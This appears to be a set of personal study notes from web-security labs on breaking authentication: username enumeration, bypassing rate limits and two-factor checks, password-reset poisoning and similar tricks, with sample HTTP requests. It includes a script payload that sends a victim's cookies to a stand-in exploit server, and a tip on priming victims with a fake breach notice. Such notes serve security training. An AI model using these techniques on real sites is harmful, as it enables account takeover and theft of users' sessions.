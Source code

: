### Username enumeration
- try to register a new user with the username that is already taken
- check response codes in user login
- error messages in user login:
  - response length: even by 1 character (when ther's a typo err)
- check response time: send as long password as possible and if the username is correct the response time may be longer than usual
- via account lock:
  - Sometimes an application may respond invalid username or password but in case we hit the username that exists more than let's say 3 times the response will be different. E.g.: You have made too many incorrect login attempts

### Brute-forcing usernames
Usernames are especially easy to guess if they conform to a recognizable pattern, such as an email address. For example, it is very common to see business logins in the format firstname.lastname@somecompany.com. However, even if there is no obvious pattern, sometimes even high-privileged accounts are created using predictable usernames, such as admin or administrator.

During auditing, check whether the website discloses potential usernames publicly. For example, are you able to access user profiles without logging in? Even if the actual content of the profiles is hidden, the name used in the profile is sometimes the same as the login username. You should also check HTTP responses to see if any email addresses are disclosed. Occasionally, responses contain email addresses of high-privileged users, such as administrators or IT support. 

### Flawed brute-force protection
> Note: IP block can sometimes be evaded with `X-Forwarded-For` header

- The counter for the number of failed attempts resets if the IP owner logs in successfully to his own account
  - for example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

### Bypassing two-factor authentication
- If the user is first prompted to enter a password, and then prompted to enter a verification code on a separate page, the user is effectively in a "logged in" state before they have entered the verification code. In this case, it is worth testing to see if you can directly skip to "logged-in only" pages after completing the first authentication step. Occasionally, you will find that a website doesn't actually check whether or not you completed the second step before loading the page. 
- After a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step:  

Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step:  
For example, the user logs in with their normal credentials in the first step as follows:  
```
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```
In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.   

#### Lab example:
e.g. make a request to `POST /login` req.body: `user=wiener&password=peter ` 
as a response we are redirected to `GET /login2` which generates on the backend a 4 digit mfa code and sends it via sms or email  
When we got the 4 digit code we submit it with `POST /login2` req.body: `mfa-code=1234`  
As a response we get a `SetCookie header: session=afasdfsf` and a redirect to a user home page  
If the mfa logic is broken then we can generate mfa-code for another user by making `GET /login2` request and changing the header `Cookie: verify=wiener` to `Cookie: verify=carlos` and it will generate a new mfa-code for carlos.   
Later we can brute-force that code and get back a `SetCookie` header with the session for carlos.

2FA bypass using a brute-force attack  
Some websites attempt to prevent mfa bruteforce by automatically logging a user out if they enter a certain number of incorrect verification codes.
It can be circumvented by writing a script that logs in our user and tries to brute force mfa code.
> Note: script may need to be run 2 or more times as it is also possible that sometimes new login may generate mfa code that has already been tried before...

### Brute-forcing a stay-logged-in cookie
Some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp
- login to your account and look at the stay-logged-in cookie 
- try to figure out how it is generated and whether it can be brute forced
- if successful go to another url with that cookie e.g. /account

### If not possible to crate your own account try to steal existing user cookies
```
<script>document.location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
And checkout your server logs

### Reset password token is not checked twice 
See `./pass_reset_flow.md` file for details of the pass reset flow

In the second request change the value of `temp-forgot-password-token` to any random string and observe if it resets the password. If it does - then this reset token is not checked (for being related to a user) properly for the second time

### Password reset poisoning (AKA stealing pass reset token if user clicks on url)
See `./pass_reset_flow.md` file for details of the pass reset flow

If the URL that is sent to the user's email is dynamically generated based on controllable input, such as the `Host` header we can do the following:

Submit a password reset request on the behalf of user that we're trying to attack. When submitting the form intercept the resulting HTTP request and modify the `Host` header so that it points to a domain (server) that you control

Later the victim will receive the pass reset link to their email and if victim clicks on it (or it is fetched in some other way, for example, by an antivirus scanner) - you'll see their real reset token in the server logs

If `Host` header does not change the generated url you can try to add additional header `X-Forwarded-Host` which may change the resulting url

> Note: neither `Host` nor `X-Forwarded-Host` should contain "https://"

> Note: Even if you can't control the password reset link, you can sometimes use the `Host` header to inject HTML into sensitive emails. Note that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply. 

> Note: In a real attack, the attacker may seek to increase the probability of the victim clicking the link by first warming them up with a fake breach notification

### Password brute-force via password change (see reset_pass.go)
Password change functionality can be particularly dangerous if it allows an attacker to access it directly without being logged in as the victim user

if you enter two different new passwords, an error message simply states Current password is incorrect. If you enter a valid current password, but two different new passwords, the message says New passwords do not match. We can use this message to enumerate correct passwords. 

### Identification and authentication failures
> Taken from THM > OWASP TOP 10 2021 > Identification and authentication failures

Say there is an existing user with the name `admin`, and we want access to their account, so what we can do is try to re-register that username but with slight modification.

We will enter " admin" without the quotes (notice the space at the start). Now when you enter that in the username field and enter other required information like `email` `id` or `password` and submit that data, it will register a new user, but that user will have the same right as the admin account. That new user will also be able to see all the content presented under the user admin.

